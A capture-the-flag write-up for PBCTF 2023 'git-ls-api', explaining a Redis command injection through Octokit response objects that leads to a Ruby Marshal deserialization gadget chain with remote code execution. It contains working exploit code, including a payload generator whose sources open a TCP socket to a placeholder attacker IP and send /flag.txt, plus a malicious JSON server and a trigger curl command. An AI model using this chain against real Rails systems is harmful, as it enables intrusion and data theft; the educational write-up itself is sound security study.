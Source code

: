 ```yaml
---
layout: post
title:  "PBCTF2023 git-ls-api"
date:   2023-02-22 
author: numbers
tags: [web, ruby]
---
```


We are given the source to a simple service which displays the SHA hash and file list for a github project. We can also provide an `api_endpoint` and it will retrieve from our host instead.

the `index` endpoint invokes `octokit` to retrieve the SHA and tree of the target repo. While searching the net to understand how `Octokit` works, I found a [gitlab bug](https://gitlab.com/gitlab-org/gitlab/-/issues/371098) where the importer could be hijacked via improper passing of a `SawyerResource` object to a caching function. The bug in this challenge wound up being almost identical, but using the built in rails redis cacher rather than being in gitlab's methods. 

The redis command serializer assumes that it will receive a norrmal flat bytelike or string object, and uses `to_s` to get the value and `bytesize` to compute the length.  `SawyerResource` objects are automagic structs produced directly from our input JSON, so we can set those to mismatch when constructing the RESP command string (it doesn't check that it's the builtin `bytesize` method and not just a field on the input). This lets us inject redis commands directly by using something like:

```python
exploit = {"sha": {"to_s": { "to_s": { "to_s": { "b":{
           "to_s":f"AA\r\n$2\r\nPX\r\n$2\r\n10\r\n*5\r\n$3\r\nset\r\n${len(target)}\r\n{target}\r\n${len(payload)}\r\n{payload}\r\n$2\r\nPX\r\n$6\r\n300000\r\n",
            "bytesize":2
            }}}}},"tree": [{"path":"pwnedbyPFS"}]}```

Here, I'm invoking a `set` command. 

The redis connector is invoked with `raw: True` for both directly controlled fields, but there's a third value stored for every connection which doesn't have that

```ruby
 def session
    Rails.cache.fetch(session_id, expires_in: 5.minutes) do
      { created_at: DateTime.now }
    end.to_json
  end
```

Values fetched without `raw: True` will be unmarshalled, leading to a classic ruby unmarshalling exploit. We can use redis injection to set our `session_id` in the redis server to controlled data, then trigger it to be unmarshalled

I wasted a _ton_ of time once I got to this point, but I  didn't really know what I was doing. I'll try to explain ruby unmarshalling best I can, but there are [numerous](https://bishopfox.com/blog/ruby-vulnerabilities-exploits) [other](https://www.elttam.com/blog/ruby-deserialization/) [resources](https://devcraft.io/2022/04/04/universal-deserialisation-gadget-for-ruby-2-x-3-x.html) [worth](https://github.com/haileys/old-website/blob/master/posts/rails-3.2.10-remote-code-execution.md) [reading](https://github.com/httpvoid/writeups/blob/main/Ruby-deserialization-gadget-on-rails.md).

Ruby unmarshalling exploits require a "gadget chain" (somewhat analogous to ROP chaining, i.e., reusing existing code). When unmarshalling an object, ruby will invoke the `marshal_load` and `_load`. There are nuanced differences between the two, for more info check [this link](https://blog.appsignal.com/2019/03/26/object-marshalling-in-ruby.html). A typical ruby gadget chain will start with an object which has a `marshal_load` implementation, although from my research, increasingly many exploit chains utilize more complex gadgets or indirect effects rather than directly using `marshal_load`. Whatever the initial mechanism, the general technique is to utilize ruby class which, when unmarshalled, allows you to invoke other useful functions (e.g., by setting the value of a member variable which will be invoked). Ultimately, you want to invoke a sink function which gets arbitrary ruby execution, or other behavior (e.g. shell execution) as determined by the constraints of your expoit.


I was able to replicate a few different gadget options I found online to kick off the chain. The easiest wound up being the `ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy` gadget. This gadget lets us invoke any method (without arguments) on any class. I will briefly describe the `DeprecatedInstanceVariableProxy` gadget, but definately read the source and check out other writeups for more information.

The `DeprecatedInstanceVariableProxy` implements `method_missing` which will be invoked when any unfound method is called on the class:

```ruby
def method_missing(called, *args, &block)
    @deprecator.warn(@message, caller_locations)
    target.__send__(called, *args, &block)
end
```

`Target` is implemented as:
```ruby
class DeprecatedInstanceVariableProxy < DeprecationProxy
    def initialize(instance, method, var = "@#{method}", deprecator = ActiveSupport::Deprecation.instance)
        @instance = instance
        @method = method
        @var = var
        @deprecator = deprecator
    end

    private
    def target
        @instance.__send__(@method)
    end

    def warn(callstack, called, args)
          @deprecator.warn("#{@var} is deprecated! Call #{@method}.#{called} instead of #{@var}.#{called}. Args: #{args.inspect}", callstack)
        end
    end
```

By setting `@method` and `@instance`, we can invoke any function on any class. We instantiate the deprecator as follows:

```ruby
depr = ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.allocate
depr.instance_variable_set(:@instance, CLASS)
depr.instance_variable_set(:@method, :METHOD)
depr.instance_variable_set(:@silenced, true)
depr.instance_variable_set(:@var, "@METHOD")
d2 = ActiveSupport::Deprecation.new
d2.instance_variable_set(:@silenced, true)
depr.instance_variable_set(:@deprecator, d2)
```
Replacing `CLASS` with an instance of our target class, and `METHOD` with our target method, we can invoke `CLASS.METHOD`. Note that the target method must have no arguments.

At this point, I had to go digging, as all of the sink function I've seen people mention have been patched (e.g., `ActiveModel::AttributeMethods::ClassMethods::CodeGenerator`).

I discovered `ActiveSupport::CodeGenerator::MethodSet`, which has a function `apply` which calls `module_eval` on an instance variable (very similar to how the DIVP gadget has been used before)

```ruby
def apply(owner, path, line)
  unless @sources.empty?
    @cache.module_eval("# frozen_string_literal: true\n" + @sources.join(";"), path, line)
  end
  @methods.each do |name, as|
    owner.define_method(name, @cache.instance_method(as))
  end
end
```

We can't invoke the `apply` method directly, but examining the surrounding code we can instantiate an `ActiveSupport::CodeGenerator` and it's child `MethodSet` and invoke `execute` on the `CodeGenerator`:

```ruby
def execute
  @namespaces.each_value do |method_set|
    method_set.apply(@owner, @path, @line - 1)
  end
end
```

Here's my code to generate the payload:

```ruby
class ActiveSupport
    class Deprecation
        class DeprecatedInstanceVariableProxy
            def initialize(instance, method)
                @instance = instance
                @method = method
            end
       end
    end
    class CodeGenerator
        class MethodSet
            METHOD_CACHES = Hash.new 
            def initialize(instance, method)
                @instance = instance
                @method = method
            end
        end
    end
end


methodset = ActiveSupport::CodeGenerator::MethodSet.allocate
methodset.instance_variable_set(:@sources, ["f=TCPSocket.open(\"IP_ADDRESS_HERE\",1234)", "t=File.read(\"/flag.txt\")", "f.puts(t)"]) #;
methodset.instance_variable_set(:@cache, Module.class)

codegen   = ActiveSupport::CodeGenerator.allocate
codegen.instance_variable_set(:@owner, "OWNER")
codegen.instance_variable_set(:@path, "PATH")
codegen.instance_variable_set(:@line, 1)
codegen.instance_variable_set(:@namespaces, {"1"=>methodset})

depr = ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.allocate
depr.instance_variable_set(:@instance, codegen)
depr.instance_variable_set(:@method, :execute)
depr.instance_variable_set(:@silenced, true)
depr.instance_variable_set(:@var, "@execute")
d2 = ActiveSupport::Deprecation.new
d2.instance_variable_set(:@silenced, true)
depr.instance_variable_set(:@deprecator, d2)

Marshal.dump(depr)
```

I host it with python and invoke the server twice with curl. The first invokation sets the session variable in the redis cache, and the second causes it to be unmarshalled.

```python
#!/usr/bin/env python3

from http.server import BaseHTTPRequestHandler, HTTPServer
from urllib.parse import urlparse
import json
payload = "put_payload_here"
target = "put_sessionID_here"
exploit = {"sha": {"to_s": { "to_s": { "to_s": { "b":{
           "to_s":f"AA\r\n$2\r\nPX\r\n$2\r\n10\r\n*5\r\n$3\r\nset\r\n${len(target)}\r\n{target}\r\n${len(payload)}\r\n{payload}\r\n$2\r\nPX\r\n$6\r\n300000\r\n",
            "bytesize":2
            }}}}},"tree": [{"path":"pwnedbyPFS"}]}
pwn = json.dumps(exploit).encode("utf-8")


class RequestHandler(BaseHTTPRequestHandler):
    def do_GET(self):
        parsed_path = urlparse(self.path)
        self.send_response(200)
        self.send_header('Content-type', 'application/vnd.github.v3+json')
        self.end_headers()
        
        self.wfile.write(pwn)
        
        return
    
if __name__ == '__main__':
    server = HTTPServer(('0.0.0.0', 80), RequestHandler)
    server.serve_forever()
```

`curl -vv -c -b "./cookie" --path-as-is http://git-ls-api.chal.perfect.blue/a/B?api_endpoint=http://your_endpoint.net`
